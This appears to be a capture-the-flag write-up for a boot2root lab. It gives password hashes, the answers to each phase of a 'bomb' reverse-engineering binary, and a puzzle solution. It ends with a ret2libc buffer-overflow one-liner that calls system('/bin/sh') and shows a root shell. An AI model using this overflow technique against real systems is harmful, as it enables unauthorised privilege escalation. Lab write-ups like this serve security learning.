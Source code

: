 So the password is `SHA256("Iheartpwnage")` which is `330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4`.

# Exploit user laurie with SSH

Once connected over ssh to user `laurie`, we found a `README` file with hints to get password of user `thor` and a binary
called `bomb`. We have to diffuse the bomb to get the password and we only have one life.

# Exploit bomb binary

We can explore the binary using GDB:
  * In the first phase we simply have to enter the string `Public speaking is very easy.`
  * In the second phase we are invited to enter 6 numbers, which should be the first 6 factorials `1 2 6 24 120 720`
  * In the third phase we have to enter 2 numbers and a character between them (`"%d %c %d"`) which are `1 b 214` based on the hint
  * In the forth phase we compare if the output of `func4` is `55`, predicted that is comuputing fibonacci then if it's
  	the we should give `9` and indeed we pass the phase with `9`.
  * In the fifth phase we expect that the given string is equal to `giants` after doing some modifications on it. If we look at the code
    there is an array that correspond a letter to every alphabetic letter `"isrveawhobpnutfg"` (modulo `16`) which gives `opekmq` as answer
  * In the last phase we are again invited to read 6 numbers. Basically it checks if all numbers are less or equal to `6` and distinct and do some
    other operations, at the end it turns out that the combination is `4 2 6 3 1 5`

After finishing all steps the password is the concatenation of every step without spaces: `Publicspeakingisveryeasy.126241207201b2149opekmq426135`

# Exloit user thor with SSH

Once connected we find instructions in a file named `turtle` that will give us password for user `zaz`.
After following the instructions we found that it draws letter which are `SLASH`, at the end of the instructions we have a message
`Can you digest the message? :)` which means that we have to apply `MD5` on that word. The password is `646da671ca01bb5d84dbb5fb2238dc8e`

# Exloit user zaz sith SSH

Once connected we find a folder named `mail` that contains empty folders and log messages with unreadable content, and a binary
named `exloit_me`. When running the binary wihtout arguments is does nothing but if we give an argument it prints it back.
Giving more arguments does not change things

First idea that cames in mind is to see if we can overflow the input, which happens when we give more than `139` characters. We can then
erase then call `system("/bin/sh")` with the following command:
```bash
$ ./exploit_me $(python -c "print('0' * 140 + '\x60\xb0\xe6\xb7' + 'AAAA' + '\x58\xcc\xf8\xb7')")
'\x58\xcc\xf8\xb7')"`
00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000`��AAAAX��
# whoami
root
```
